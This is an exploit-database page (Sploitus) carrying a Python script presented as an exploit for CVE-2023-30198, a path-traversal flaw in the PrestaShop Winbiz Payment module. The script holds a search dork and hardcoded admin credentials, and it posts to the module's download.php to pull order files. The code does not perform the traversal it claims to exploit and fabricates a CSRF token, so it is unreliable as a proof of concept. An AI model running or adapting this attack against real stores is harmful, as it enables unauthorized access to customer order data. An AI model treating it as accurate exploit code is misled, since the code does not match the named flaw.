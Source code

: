```yaml
---
title: PrestaShop Winbiz Payment module - Improper Limitation of a Pathname to a Restricted Directory exploit
url: https://sploitus.com/exploit?id=EDB-ID:51545&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-27
fetch_date: 2025-10-04T11:45:15.086751
---
```


# PrestaShop Winbiz Payment module - Improper Limitation of a Pathname to a Restricted Directory exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for PrestaShop Winbiz Payment module - Improper Limitation of a Pathname to a Restricted Directory CVE-2023-30198

2023-06-26 | CVSS 7.5

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=EDB-ID:51545
# Exploit Title: PrestaShop Winbiz Payment module - Improper Limitation of a Pathname to a Restricted Directory
# Date: 2023-06-20
# Dork: /modules/winbizpayment/downloads/download.php
# country: Iran
# Exploit Author: Amirhossein Bahramizadeh
# Category : webapps
# Vendor Homepage: https://shop.webbax.ch/modules-pour-winbiz/153-module-prestashop-winbiz-payment-reverse.html
# Version: 17.1.3 (REQUIRED)
# Tested on: Windows/Linux
# CVE : CVE-2023-30198

import requests
import string
import random

# The base URL of the vulnerable site
base_url = "http://example.com"

# The URL of the login page
login_url = base_url + "/authentication.php"

# The username and password for the admin account
username = "admin"
password = "password123"

# The URL of the vulnerable download.php file
download_url = base_url + "/modules/winbizpayment/downloads/download.php"

# The ID of the order to download
order_id = 1234

# The path to save the downloaded file
file_path = "/tmp/order_%d.pdf" % order_id

# The session cookies to use for the requests
session_cookies = None

# Generate a random string for the CSRF token
csrf_token = ''.join(random.choices(string.ascii_uppercase + string.digits, k=32))

# Send a POST request to the login page to authenticate as the admin user
login_data = {"email": username, "passwd": password, "csrf_token": csrf_token}
session = requests.Session()
response = session.post(login_url, data=login_data)

# Save the session cookies for future requests
session_cookies = session.cookies.get_dict()

# Generate a random string for the CSRF token
csrf_token = ''.join(random.choices(string.ascii_uppercase + string.digits, k=32))

# Send a POST request to the download.php file to download the order PDF
download_data = {"id_order": order_id, "csrf_token": csrf_token}
response = session.post(download_url, cookies=session_cookies, data=download_data)

# Save the downloaded file to disk
with open(file_path, "wb") as f:
    f.write(response.content)

# Print a message indicating that the file has been downloaded
print("File downloaded to %s" % file_path)
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)